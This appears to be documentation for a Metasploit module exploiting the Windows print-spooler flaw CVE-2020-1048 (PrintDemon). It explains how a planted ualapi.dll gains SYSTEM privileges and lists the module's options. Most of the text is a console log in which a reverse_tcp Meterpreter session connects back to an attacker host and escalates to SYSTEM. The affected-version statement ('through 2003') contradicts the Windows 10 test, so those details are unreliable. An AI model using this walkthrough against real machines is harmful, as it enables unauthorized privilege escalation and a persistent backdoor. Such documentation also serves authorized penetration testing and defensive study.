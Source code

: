 ## Vulnerable Application

Vulnerable versions for exploit
All unpatched windows through version 2003

### Introduction

This exploit relies on a bug where you can create a virtual printer
and print to trusted locations on the filesystem.  If a user chooses the
default overwrite, it may create a permanent backdoor.

Basically, this exploit creates a print job that writes to a trusted
location.  By selecting the location ```C:\windows\system32\ualapi.dll```
we abuse the spooler service twice.  The spooler will print to this
location when it restarts, then it will load the DLL into itself when it
restarts a second time.  The DLL will then be running as ```SYSTEM```.

When the printer is created, the target will show a pop-up saying a
printer was created.
A larger issue here is that the Spooler service does not like to stop.
Trying `sc stop` Spooler does not stop the spooler.
Killing the pid with a trusted process will kill it, but it restarts
automatically.
Using the `pendingFileRenameOperations` registry key also does not appear
to work.

## Verification Steps

 Start ```msfconsole```
 get session on a windows target that is not patched (and <= 2003)
 ```use windows/local/cve_2020_1048_printerdemon```
 ```set session <session>```
 ```set payload <payload>```
 ```set lhost <lhost>```
 ```set lport <lport>```
 ```run```
 Verify target reboots automagically if 
 reboot target again (yest it has to reboot again
 Verify you get a session

## Options

  **EXECUTE_DELAY**
  The time between uploading and running the exploit.  Default is 3
  seconds, but high-latency networks may require more time.

  **EXPLOIT_NAME**
  The name of the when it is uploaded to the target (%RAND% by default).
  
  **EXPLOIT_DIR**
  Directory to use for file upload and linking; this should not already
  exist. (%RAND% by default)

  **OVERWRITE_DLL**
  The remote location you would like to write to.  Default is
  ```C:\windows\system32\ualapi.dll```

  **PAYLOAD_NAME**
  The filename to use for the payload binary (%RAND% by default).
  This is the name of the dll payload when uploaded to the remote host.

  **RESTART_TARGET**
  This will restart the target to force the overwrite.  YOU WILL LOSE
  YOUR SESSION unless you have a method of persistence.
  The dll will not be run until a second reboot.

  **WRITEABLE_DIR**
  The directory to use the payload binary and uploaded payload.
  (%RAND% by default).

## Scenarios

### Tested on Windows10 x64 Release 1903

  ```
msf6 payload(windows/x64/meterpreter/reverse_tcp) > to_handler
[*] Payload Handler Started as Job 2

[*] Started reverse TCP handler on 192.168.135.197:5555 
msf6 payload(windows/x64/meterpreter/reverse_tcp) > [*] Sending stage (200262 bytes) to 192.168.132.134
[*] Meterpreter session 2 opened (192.168.135.197:5555 -> 192.168.132.134:49675) at 2020-08-24 12:15:07 -0500

msf6 payload(windows/x64/meterpreter/reverse_tcp) > sessions -i -1
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer        : DESKTOP-CL5L2IH
OS              : Windows 10 (10.0 Build 18362).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-CL5L2IH\msfuser
meterpreter > getsystem
[-] 2001: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 2...
msf6 payload(windows/x64/meterpreter/reverse_tcp) > use exploit/windows/local/cve_2020_1048_printerdemon 
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2020_1048_printerdemon) > show options

Module options (exploit/windows/local/cve_2020_1048_printerdemon):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   EXECUTE_DELAY   3                yes       The number of seconds to delay between file upload and exploit launch
   EXPLOIT_NAME                     no        The filename to use for the exploit binary (%RAND% by default).
   OVERWRITE_DLL                    no        Filename to overwrite (%WINDIR%\system32\ualapi.dll by default).
   PAYLOAD_NAME                     no        The filename for the payload to be used on the target host (%RAND%.dll by default).
   RESTART_TARGET  true             yes       Restart the target after exploit (you will lose your session until a second reboot).
   SESSION         1                yes       The session to run this module on.
   WRITABLE_DIR                     no        Path to write binaries (%TEMP% by default).


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.197  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x64


msf6 exploit(windows/local/cve_2020_1048_printerdemon) > set verbose true
verbose => true
msf6 exploit(windows/local/cve_2020_1048_printerdemon) > set disablepayloadhandler false
disablepayloadhandler => false
msf6 exploit(windows/local/cve_2020_1048_printerdemon) > set wfsdelay 600
wfsdelay => 600
msf6 exploit(windows/local/cve_2020_1048_printerdemon) > run

msf6 exploit(windows/local/cve_2020_1048_printerdemon) > set session 2
session => 2
msf6 exploit(windows/local/cve_2020_1048_printerdemon) > run

[*] Started reverse TCP handler on 192.168.135.197:4444 
[*] Checking Target
[*] Attempting to PrivEsc on DESKTOP-CL5L2IH via session ID: 2
[*] Build Number = 18362
[*] Uploading Payload
[*] Payload (5120 bytes) uploaded on DESKTOP-CL5L2IH to C:\Users\msfuser\AppData\Local\Temp\UCPNtlof
[!] This exploit requires manual cleanup of the payload C:\Users\msfuser\AppData\Local\Temp\UCPNtlof
[*] Sleeping for 3 seconds before launching exploit
[*] Uploading exploit to DESKTOP-CL5L2IH as C:\Users\msfuser\AppData\Local\Temp\JkrbEDShseh.exe
[*] Exploit uploaded on DESKTOP-CL5L2IH to C:\Users\msfuser\AppData\Local\Temp\JkrbEDShseh.exe
[*] Running Exploit
[*] Exploit output:
Printer created successfully
[*] Rebooting DESKTOP-CL5L2IH
[*] 192.168.132.134 - Meterpreter session 2 closed.  Reason: Died
```

After the auto-reboot, reboot again.
The first reboot performs the overwrite; the second loads the dll.

```
[*] Sending stage (200262 bytes) to 192.168.132.134
[*] Meterpreter session 3 opened (192.168.135.197:4444 -> 192.168.132.134:49669) at 2020-08-24 12:19:49 -0500

meterpreter > sysinfo
Computer        : DESKTOP-CL5L2IH
OS              : Windows 10 (10.0 Build 18362).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 

```
